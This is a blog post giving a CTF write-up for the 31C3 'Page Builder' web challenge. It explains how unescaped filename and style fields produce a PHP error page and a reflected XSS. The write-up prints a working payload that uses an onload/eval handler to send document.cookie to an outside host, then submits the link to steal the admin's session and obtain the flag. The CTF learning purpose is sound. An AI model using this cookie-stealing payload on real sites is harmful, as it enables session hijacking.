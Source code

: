 ```yaml
---
title: 31C3 CTF – Page Builder writeup
author: tyage
type: posts
date: 2015-01-02T00:32:50+00:00
url: /?p=829
categories:
  - CTF

---
```

<p>This challenge needs only XSS but it is interesting to me 🙂</p>
<blockquote><p>
These guys have ripped off our designs and using them in their web pages builder! We’d Haxx them, don’t worry we’ll give you decent points for it. http://188.40.18.76/
</p></blockquote>
<p><a href="https://blog.tyage.net/wp-content/uploads/2015/01/96291d2119ed92471bf6a9a94b458fda.png"><img data-attachment-id="831" data-permalink="https://blog.tyage.net/?attachment_id=831" data-orig-file="https://blog.tyage.net/wp-content/uploads/2015/01/96291d2119ed92471bf6a9a94b458fda.png" data-orig-size="742,388" data-comments-opened="1" data-image-meta="{&quot;aperture&quot;:&quot;0&quot;,&quot;credit&quot;:&quot;&quot;,&quot;camera&quot;:&quot;&quot;,&quot;caption&quot;:&quot;&quot;,&quot;created_timestamp&quot;:&quot;0&quot;,&quot;copyright&quot;:&quot;&quot;,&quot;focal_length&quot;:&quot;0&quot;,&quot;iso&quot;:&quot;0&quot;,&quot;shutter_speed&quot;:&quot;0&quot;,&quot;title&quot;:&quot;&quot;,&quot;orientation&quot;:&quot;0&quot;}" data-image-title="スクリーンショット 2015-01-02 8.40.09" data-image-description="" data-medium-file="https://blog.tyage.net/wp-content/uploads/2015/01/96291d2119ed92471bf6a9a94b458fda.png" data-large-file="https://blog.tyage.net/wp-content/uploads/2015/01/96291d2119ed92471bf6a9a94b458fda.png" src="http://blog.tyage.net/wp-content/uploads/2015/01/96291d2119ed92471bf6a9a94b458fda-300x157.png" alt="スクリーンショット 2015-01-02 8.40.09" width="300" height="157" class="alignnone size-medium wp-image-831" /></a></p>
<p>By using the form, we could generate a page.(such as http://188.40.18.76/output/19c94d778563b117e18e3442e887989aea14277d/filename)</p>
<p>It htmlspecialchars the &#8220;title&#8221; and &#8220;file content&#8221; but not &#8220;style&#8221; or &#8220;filename&#8221;.</p>
<p>The maximum size of &#8220;style&#8221; is 8bytes and that of &#8220;filename&#8221; is 65bytes.</p>
<p>Then, &#8220;filename&#8221; can be <code>foo.php</code> and &#8220;style&#8221; can be <code>&lt;?php a</code> so that it shows PHP error.</p>
<p>(<a href="http://188.40.18.76/output/19c94d778563b117e18e3442e887989aea14277d/foo.php">http://188.40.18.76/output/19c94d778563b117e18e3442e887989aea14277d/foo.php</a>)</p>
<blockquote><p>
Parse error: syntax error, unexpected &#8216;&#8221; rel=&#8221;&#8216; (T_CONSTANT_ENCAPSED_STRING) in /var/www/html/output/19c94d778563b117e18e3442e887989aea14277d/foo.php on line 10
</p></blockquote>
<p>hmm&#8230; PHP code exeution looks difficult because maximum size of &#8220;style&#8221; is 8bytes and short_open_tag is offed. (and <code>*</code> is removed from &#8220;title&#8221; and &#8220;file content&#8221;)</p>
<p>So let&#8217;s search another vulnerability.</p>
<p>We can XSS with &#8220;filename&#8221;, because the error page above prints &#8220;filename&#8221; that is not escaped!</p>
<blockquote><p>
http://188.40.18.76/output/19c94d778563b117e18e3442e887989aea14277d/%3Cbody onload=%22eval%28location.hash.slice%281%29%29%22.php#<br />
location.href=%27http://tyage.net/%27+document.cookie
</p></blockquote>
<p>(Notice: we put the code in <code>location.hash</code> to fit in the maximum length of &#8220;filename&#8221;)</p>
<p>Now, just submit a link above in the contact form and we capture the flag!</p>
<p><code>31c3_Y0u_H4v3_F0und_My_W34k_Err0R_P01n7</code></p>
